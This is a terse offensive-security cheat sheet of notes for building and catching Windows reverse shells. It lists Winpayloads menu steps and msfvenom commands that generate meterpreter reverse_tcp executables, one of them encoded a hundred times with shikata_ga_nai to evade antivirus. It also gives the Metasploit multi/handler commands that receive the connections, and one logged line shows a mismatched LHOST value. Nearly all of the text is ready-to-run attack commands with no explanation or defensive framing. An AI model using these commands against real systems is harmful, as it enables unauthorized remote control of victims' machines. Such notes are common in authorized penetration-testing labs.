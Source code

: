 ### [Payload Resources]
https://github.com/nccgroup/Winpayloads

Winpayloads.py

stager
r
ps payload
execute payload on target
#handler gets hit
\
clients
clientid#
\
back (to main menu)
2 to reverse tcp
y to upload
clientid#
\
#msfloads
sessions -i sesid#
shell
background (leave process in background)
sessions -k sesid#
\
clients
exit (kills client session)

https://github.com/xephora/PayloadsAllTheThings

[Generating Payloads on Windows using Metasploit]

### [Regular Reverse TCP]
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOURIP LPORT=YOURPORT -f exe > shell.exe
[Poly Morphic Reverse TCP]
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOURIP LPORT=YOURPORT -e x64/shikata_ga_nai -i 100 -f exe > file.exe

### [Handler]
msf5 > use exploit/multi/handler

msf5 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp

PAYLOAD => windows/x64/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > set LHOST eth0

LHOST => tun0

msf5 exploit(multi/handler) > set LPORT 32119

LPORT => 32119

msf5 exploit(multi/handler) > run

https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom
https://www.offensive-security.com/metasploit-unleashed/fun-incognito/

